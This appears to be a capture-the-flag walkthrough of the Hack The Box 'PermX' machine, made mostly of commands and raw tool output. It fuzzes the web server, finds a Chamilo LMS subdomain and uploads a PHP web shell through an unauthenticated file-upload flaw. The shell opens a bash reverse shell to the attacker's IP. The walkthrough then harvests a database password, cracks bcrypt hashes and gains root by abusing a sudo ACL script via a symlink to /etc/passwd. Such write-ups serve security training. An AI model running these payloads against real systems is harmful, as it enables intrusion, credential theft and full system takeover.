

```
[18:19:01] Starting: 
[18:19:06] 301 -  303B  - /js  ->  http://permx.htb/js/
[18:19:09] 403 -  274B  - /.ht_wsr.txt
[18:19:09] 403 -  274B  - /.htaccess.bak1
[18:19:09] 403 -  274B  - /.htaccess.orig
[18:19:09] 403 -  274B  - /.htaccess.save
[18:19:09] 403 -  274B  - /.htaccess.sample
[18:19:09] 403 -  274B  - /.htaccess_extra
[18:19:09] 403 -  274B  - /.htaccess_orig
[18:19:09] 403 -  274B  - /.htaccess_sc
[18:19:09] 403 -  274B  - /.htaccessBAK
[18:19:09] 403 -  274B  - /.htaccessOLD
[18:19:09] 403 -  274B  - /.htaccessOLD2
[18:19:09] 403 -  274B  - /.htm
[18:19:09] 403 -  274B  - /.html
[18:19:09] 403 -  274B  - /.htpasswd_test
[18:19:09] 403 -  274B  - /.httr-oauth
[18:19:09] 403 -  274B  - /.htpasswds
[18:19:11] 403 -  274B  - /.php
[18:19:17] 200 -   10KB - /404.html
[18:19:20] 200 -    1KB - /LICENSE.txt
[18:19:26] 200 -   20KB - /about.html
[18:19:53] 200 -   14KB - /contact.html
[18:19:54] 301 -  304B  - /css  ->  http://permx.htb/css/
[18:20:04] 301 -  304B  - /img  ->  http://permx.htb/img/
[18:20:06] 200 -   35KB - /index.html
[18:20:08] 200 -  922B  - /js/
[18:20:09] 301 -  304B  - /lib  ->  http://permx.htb/lib/
[18:20:09] 200 -    2KB - /lib/
[18:20:26] 403 -  274B  - /server-status
[18:20:26] 403 -  274B  - /server-status/
```

```
wfuzz -c --hw=26 -w $HOME/Documents/Security/wordlists/subdomains-top1million-110000.txt -H 'Host: FUZZ.permx.htb' -u http://permx.htb
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://permx.htb/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                            
=====================================================================

000000001:   200        586 L    2466 W     36182 Ch    "www"                                                                                                              
000000477:   200        352 L    940 W      19347 Ch    "lms"                                                                                                              
000009532:   400        10 L     35 W       301 Ch      "#www"                                                                                                             
000010581:   400        10 L     35 W       301 Ch      "#mail"    
```

```
Target: http://lms.permx.htb/                                                                                                                                                       
                                                                                                                                                                                    
[18:38:34] Starting:                                                                                                                                                                
[18:38:38] 200 -   46B  - /.bowerrc                                                                                                                                                 
[18:38:38] 200 -    2KB - /.codeclimate.yml                                                                                                                                         
[18:38:43] 403 -  278B  - /.ht_wsr.txt                                                                                                                                              
[18:38:43] 403 -  278B  - /.htaccess.orig                                                                                                                                           
[18:38:43] 403 -  278B  - /.htaccess.sample                                                                                                                                         
[18:38:43] 403 -  278B  - /.htaccess.bak1                                                                                                                                           
[18:38:43] 403 -  278B  - /.htaccess.save                                                                                                                                           
[18:38:43] 403 -  278B  - /.htaccess_extra                                                                                                                                          
[18:38:43] 403 -  278B  - /.htaccess_orig                                                                                                                                           
[18:38:43] 403 -  278B  - /.htaccess_sc                                                                                                                                             
[18:38:43] 403 -  278B  - /.htaccessBAK                                                                                                                                             
[18:38:43] 403 -  278B  - /.htaccessOLD                                                                                                                                    
[18:38:43] 403 -  278B  - /.htaccessOLD2
[18:38:43] 403 -  278B  - /.htm               
[18:38:43] 403 -  278B  - /.html
[18:38:43] 403 -  278B  - /.httr-oauth
[18:38:43] 403 -  278B  - /.htpasswd_test
[18:38:43] 403 -  278B  - /.htpasswds
[18:38:47] 403 -  278B  - /.php  
[18:38:48] 200 -    3KB - /.scrutinizer.yml
[18:38:49] 200 -    4KB - /.travis.yml
[18:38:54] 200 -    5KB - /CONTRIBUTING.md
[18:38:55] 200 -   34KB - /LICENSE
[18:38:56] 200 -    8KB - /README.md
[18:39:16] 301 -  312B  - /app  ->  http://lms.permx.htb/app/
[18:39:16] 403 -  278B  - /app/.htaccess
[18:39:16] 200 -    2KB - /app/cache/
[18:39:16] 200 -    4KB - /app/
[18:39:16] 200 -  750B  - /app/logs/
[18:39:18] 200 -  101KB - /app/bootstrap.php.cache
[18:39:21] 200 -  941B  - /bin/
[18:39:22] 301 -  312B  - /bin  ->  http://lms.permx.htb/bin/
[18:39:22] 200 -    1KB - /bower.json
[18:39:25] 200 -    7KB - /composer.json
[18:39:29] 200 -  587KB - /composer.lock
[18:39:32] 301 -  322B  - /documentation  ->  http://lms.permx.htb/documentation/
[18:39:32] 200 -    4KB - /documentation/
[18:39:35] 200 -    2KB - /favicon.ico
[18:39:41] 200 -   19KB - /index.php
[18:39:41] 200 -   19KB - /index.php/login/
[18:39:44] 200 -    2KB - /license.txt
[18:39:46] 301 -  313B  - /main  ->  http://lms.permx.htb/main/
[18:39:46] 200 -   94B  - /main/
[18:40:00] 200 -  748B  - /robots.txt
[18:40:02] 403 -  278B  - /server-status/
[18:40:02] 403 -  278B  - /server-status
[18:40:06] 301 -  312B  - /src  ->  http://lms.permx.htb/src/
[18:40:06] 200 -  932B  - /src/
[18:40:12] 302 -    0B  - /user.php  ->  whoisonline.php
[18:40:14] 200 -    0B  - /vendor/autoload.php
[18:40:14] 200 -    0B  - /vendor/composer/autoload_namespaces.php
[18:40:14] 200 -    0B  - /vendor/composer/autoload_real.php
[18:40:14] 200 -    0B  - /vendor/composer/autoload_files.php
[18:40:14] 200 -    0B  - /vendor/composer/ClassLoader.php
[18:40:14] 200 -    0B  - /vendor/composer/autoload_static.php
[18:40:14] 200 -    0B  - /vendor/composer/autoload_psr4.php
[18:40:14] 200 -    0B  - /vendor/composer/autoload_classmap.php
[18:40:14] 200 -   17KB - /vendor/
[18:40:14] 200 -    1KB - /vendor/composer/LICENSE
[18:40:15] 200 -    6KB - /web.config
[18:40:15] 200 -    1KB - /web/
[18:40:17] 200 -  531KB - /vendor/composer/installed.json
```

```
searchsploit chamilo      
-------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                    |  Path
-------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Chamilo 1.8.7 / Dokeos 1.8.6 - Remote File Disclosure                                                                                             | php/webapps/16114.txt
Chamilo LMS - Persistent Cross-Site Scripting                                                                                                     | php/webapps/39474.txt
Chamilo LMS 1.11.14 - Account Takeover                                                                                                            | php/webapps/50694.txt
Chamilo LMS 1.11.14 - Remote Code Execution (Authenticated)                                                                                       | php/webapps/49867.py
Chamilo LMS 1.11.8 - 'firstname' Cross-Site Scripting                                                                                             | php/webapps/45536.txt
Chamilo LMS 1.11.8 - Cross-Site Scripting                                                                                                         | php/webapps/45535.txt
Chamilo LMS 1.9.10 - Multiple Vulnerabilities                                                                                                     | php/webapps/36435.txt
Chamilo Lms 1.9.6 - 'profile.php?password' SQL Injection                                                                                          | php/webapps/30012.txt
Chamilo LMS 1.9.8 - Blind SQL Injection                                                                                                           | php/webapps/36040.txt
Chamilo LMS IDOR - 'messageId' Delete POST Injection  
```

```

```

```
echo "<?php system("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.139/4444 0>&1'"); ?>" > rce.php
nc -lvnp 4444
```

```
curl -F 'bigUploadFile=@rce.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'

curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php'
```

```
pwd
/var/www/chamilo/main/inc/lib/javascript/bigupload/files
```

Run linpeas

```
/var/www/chamilo/app/config/configuration.php:                'show_password_field' => false,                                                                                       
/var/www/chamilo/app/config/configuration.php:                'show_password_field' => true,                                                                                        
/var/www/chamilo/app/config/configuration.php:        'wget_password' => '',                                                                                                        
/var/www/chamilo/app/config/configuration.php:    'force_different_password' => false,                                                                                              
/var/www/chamilo/app/config/configuration.php:$_configuration['auth_password_links'] = [                                                                                            
/var/www/chamilo/app/config/configuration.php:$_configuration['db_password'] = '03F6lY3uXAP2bkW8';                                                                                  
/var/www/chamilo/app/config/configuration.php:$_configuration['password_encryption'] = 'bcrypt';                                                                                    
/var/www/chamilo/app/config/configuration.php:/*$_configuration['password_requirements'] = [                                                                                        
/var/www/chamilo/app/config/configuration.php://$_configuration['email_template_subscription_to_session_confirmation_lost_password'] = false;                                       
/var/www/chamilo/app/config/configuration.php://$_configuration['force_renew_password_at_first_login'] = true;                                                                      
/var/www/chamilo/app/config/configuration.php://$_configuration['password_conversion'] = false;                                                                                     
/var/www/chamilo/cli-config.php:    'password' => $_configuration['db_password'],                                                                                                   
/var/www/chamilo/main/admin/db.php:';if($Qd=="auth"){$Ce="";foreach((array)$_SESSION["pwds"]as$mh=>$Mf){foreach($Mf                                                                 
/var/www/chamilo/main/admin/db.php:<tr><th>Password<td><input name="pass" id="pass" value="',h($L["pass"]),'" autocomplete="new-password">                                          
/var/www/chamilo/main/install/configuration.dist.php:                'show_password_field' => false,                                                                                
/var/www/chamilo/main/install/configuration.dist.php:                'show_password_field' => true,                                                                                 
/var/www/chamilo/main/install/configuration.dist.php:        'wget_password' => '',                                                                                                 
/var/www/chamilo/main/install/configuration.dist.php:    'force_different_password' => false,                                                                                       
/var/www/chamilo/main/install/configuration.dist.php:$_configuration['auth_password_links'] = [                                                                                     
/var/www/chamilo/main/install/configuration.dist.php:$_configuration['db_password'] = '{DATABASE_PASSWORD}';                                                                        
/var/www/chamilo/main/install/configuration.dist.php:$_configuration['password_encryption'] = '{ENCRYPT_PASSWORD}';                                                                 
/var/www/chamilo/main/install/configuration.dist.php:/*$_configuration['password_requirements'] = [                                                                                 
/var/www/chamilo/main/install/configuration.dist.php://$_configuration['email_template_subscription_to_session_confirmation_lost_password'] = false;                                
/var/www/chamilo/main/install/configuration.dist.php://$_configuration['force_renew_password_at_first_login'] = true;                                                               
/var/www/chamilo/main/install/configuration.dist.php://$_configuration['password_conversion'] = false;                                                                              
/var/www/chamilo/main/install/update-configuration.inc.php:        } elseif (stripos($line, '$userPasswordCrypted') !== false) {                                                    
/var/www/chamilo/plugin/buycourses/database.php:        'password' => '',                                                                                                           
/var/www/chamilo/plugin/buycourses/database.php:    $paypalTable->addColumn('password', Types::STRING);
```

```
AWS_KEY=                                                                                                                                                                            
AWS_SECRET=                                                                                                                                                                         
AWS_BUCKET=                                                                                                                                                                         
AZURE_ACCOUNT=                                                                                                                                                                      
AZURE_KEY=                                                                                                                                                                          
AZURE_CONTAINER=                                                                                                                                                                    
FTP_HOST=ftp                                                                                                                                                                        
FTP_PORT=21                                                                                                                                                                         
FTP_USER=gaufrette                                                                                                                                                                  
FTP_PASSWORD=gaufrette                                                                                                                                                              
FTP_BASE_DIR=/gaufrette                                                                                                                                                             
MONGO_URI=mongodb://mongodb:27017                                                                                                                                                   
MONGO_DBNAME=gridfs_test                                                                                                                                                            
SFTP_HOST=sftp                                                                                                                                                                      
SFTP_PORT=22                                                                                                                                                                        
SFTP_USER=gaufrette                                                                                                                                                                 
SFTP_PASSWORD=gaufrette                                                                                                                                                             
SFTP_BASE_DIR=gaufrette
```

```
-rwxr-xr-x 1 www-data www-data 2603 Aug 31  2023 /var/www/chamilo/main/extra/database.php                                                                                           
-rwxr-xr-x 1 www-data www-data 34969 Aug 31  2023 /var/www/chamilo/plugin/buycourses/database.php                                                                                   
    $paypalTable->addColumn('password', Types::STRING);                                                                                                                             
        'password' => '',                                                                                                                                                           
-rwxr-xr-x 1 www-data www-data 3157 Aug 31  2023 /var/www/chamilo/plugin/customcertificate/database.php                                                                             
-rwxr-xr-x 1 www-data www-data 1943 Aug 31  2023 /var/www/chamilo/plugin/notebookteacher/database.php                                                                               
-rwxr-xr-x 1 www-data www-data 29829 Aug 31  2023 /var/www/chamilo/plugin/sepe/database.php 
```

```
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                                                                                                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                                                                                                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                                                                                                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                                                                                                   
tcp6       0      0 :::80                   :::*                    LISTEN      - 
```

```shell
cat configuration.php | grep -i $_configuration 
// Database connection settings.
$_configuration['db_host'] = 'localhost';
$_configuration['db_port'] = '3306';
$_configuration['main_database'] = 'chamilo';
$_configuration['db_user'] = 'chamilo';
$_configuration['db_password'] = '03F6lY3uXAP2bkW8';
$_configuration['db_manager_enabled'] = false;

mysql --host=localhost --user=chamilo --password='03F6lY3uXAP2bkW8' chamilo
```

```
3200
25600
25800
$2y$04$1Ddsofn9mOaa9cbPzk0m6euWcainR.ZT2ts96vRCKrN7CGCmmq4ra

28400
30600
$2y$04$wyjp2UVTeiD/jF4OdoYDquf4e7OWi6a3sohKRDe80IHAyihX0ujdS
```

```shell
$2y$04$1Ddsofn9mOaa9cbPzk0m6euWcainR.ZT2ts96vRCKrN7CGCmmq4ra - Possible algorithms: bcrypt $2*$, Blowfish (Unix)

./hashcat -m 3200 ~/Documents/Security/wordlists/hashes/permx.txt ../wordlists/rockyou.txt
```

```
su mtz
03F6lY3uXAP2bkW8
sudo -l
Matching Defaults entries for mtz on permx:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User mtz may run the following commands on permx:
    (ALL : ALL) NOPASSWD: /opt/acl.sh
```

```shell
ln -s /etc/passwd /home/mtz/passwd
openssl passwd 123
sudo /opt/acl.sh mtz rwx /home/mtz/passwd
nano passwd
## Replace the 'x' with the hash
su
123
cd && cat /root.txt
```

### Links

- https://starlabs.sg/advisories/23/23-4220/
- https://starlabs.sg/advisories/23/23-3533/
- https://book.hacktricks.xyz/linux-hardening/privilege-escalation#acls